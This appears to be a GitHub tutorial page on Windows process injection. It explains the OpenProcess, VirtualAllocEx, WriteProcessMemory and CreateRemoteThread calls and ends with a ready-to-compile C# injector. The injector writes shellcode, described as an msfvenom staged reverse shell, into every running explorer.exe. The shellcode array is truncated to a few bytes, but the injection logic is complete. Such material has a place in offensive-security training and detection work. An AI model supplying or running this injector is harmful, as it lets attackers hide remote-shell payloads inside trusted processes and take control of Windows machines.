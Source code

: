 <img width="1303" height="692" alt="image" src="https://github.com/user-attachments/assets/8c9b2509-cacf-419b-8ca8-d195c7e68c4b" />



##### we can initiate Windows-based process injection by opening a channel from one process to another. Process must be running at same integrity level or lower.    

1. Use Win32 **OpenProcess** API to open a channel. 
2. We'll then modify its memory space through the **VirtualAllocEx** and **WriteProcessMemory** APIs  
3. create a new execution thread inside the remote process with **CreateRemoteThread**.  
<br>
<br>
<br>

STEP #1 [OpenProcess API](http://pinvoke.net/default.aspx/kernel32/OpenProcess.html) has three arguments. Desired access listed on pinvoke webpage  
1. dwDesiredAccess, establishes the access rights we require on that process.  
2. bInheritHandle, determines if the returned handle may be inherited by a child process   
3. dwProcessId, specifies the process identifier of the target process. 
<br>
<br>
<br>


STEP #2 [VirtualAllocEx API](http://pinvoke.net/default.aspx/kernel32/VirtualAllocEx.html)  

[VirtualAllocEx MS page with function prototype](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) 


The first argument (hProcess) is the process handle to explorer.exe that we just obtained from OpenProcess and the second, lpAddress, is the desired address of the allocation in the remote process. If the API succeeds, our new buffer will be allocated with a starting address as supplied in lpAddress.

If the address given with lpAddress is already allocated and in use, the call will fail. It is better to pass a null value and let the API select an unused address.

The last three arguments (dwSize, flAllocationType, and flProtect) mirror the VirtualAlloc API parameters and specify the size of the desired allocation, the allocation type, and the memory protections. We'll set these to 0x1000, 0x3000 (MEM_COMMIT and MEM_RESERVE) and 0x40 (PAGE_EXECUTE_READWRITE), respectively. The VirtualAllocEx invocation is shown below.


<br>
<br>
<br>

STEP #3 [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
<br>
ProtoType:
<br>
We first pass the process handle (hProcess), followed by the newly allocated memory address (lpBaseAddress) in explorer.exe, along with the address of the byte array (lpBuffer) containing the shellcode. The remaining two arguments are the size of the shellcode to be copied (nSize) and a pointer to a location in memory (lpNumberOfBytesWritten) to output how much data was copied.   
<br>

for the word **OUT** in the script below on writeprocessmemory
<br>
We'll observe that the out keyword was prepended to the outSize variable to have it passed by reference instead of value.  
<br>

```C
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```
<br>
<br>
<br>
<br>

STEP #4 [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
<br>
<br>

CreateRemoteThread Prototype:  
<br>

```C
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```
<br>


This API accepts seven arguments, but we will ignore those that aren't required. The first argument is the process handle to explorer.exe, followed by the desired security descriptor of the new thread (lpThreadAttributes) and its allowed stack size (dwStackSize). We will set these to "0" to accept the default values.

For the fourth argument, lpStartAddress, we must specify the starting address of the thread. In our case, it must be equal to the address of the buffer we allocated and copied our shellcode into inside the explorer.exe process. The next argument, lpParameter, is a pointer to variables which will be passed to the thread function pointed to by lpStartAddress. Since our shellcode does not need any parameters, we can pass a NULL here.

The remaining two arguments include various flags (dwCreationFlags) and an output variable for a thread ID (lpThreadId), both of which we will ignore.   
<br><br><br>
<br><br><br>


**REMEMBER TO ALWAYS COMPILE IN FOR THE RIGHT ARCHITECHTURE!  X64 or X86.....**

Final C# script to inject into explorer.exe found by name.  If there are multiple explorer.exe running this will inject into all of them.  Correct script to point to 0 in explorerprocess array for first instance of explorer.exe  <br><br>
```C#
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace inject
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = 0;

            Process[] explorerprocess = Process.GetProcessesByName("explorer");
            foreach (Process proc in explorerprocess)
            {
                Console.WriteLine("Found explorer at PID: " + proc.Id);
                
                hProcess = OpenProcess(0x001F0FFF, false, proc.Id);

                //IntPtr hProcess = OpenProcess(0x001F0FFF, false, 6608);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

		//buf is msfvenom csharp staged rev shell.
                byte[] buf = new byte[750] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51};

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }
}


```
